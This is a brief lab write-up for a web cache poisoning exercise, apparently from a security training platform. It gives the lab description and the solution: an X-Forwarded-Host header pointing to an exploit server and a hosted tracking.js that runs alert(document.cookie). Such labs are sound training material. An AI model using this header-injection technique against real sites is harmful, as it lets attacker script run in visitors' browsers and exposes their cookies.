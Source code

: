 ```
Lab: Web cache poisoning with an unkeyed header

PRACTITIONER

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way.
An unsuspecting user regularly visits the site's home page.
To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. 
```

X-Forwarded-Host: exploit-0af500bc03f1605e8088526401d600f4.exploit-server.net/exploit
File: /exploit/resources/js/tracking.js
Body: alert(document.cookie);

---
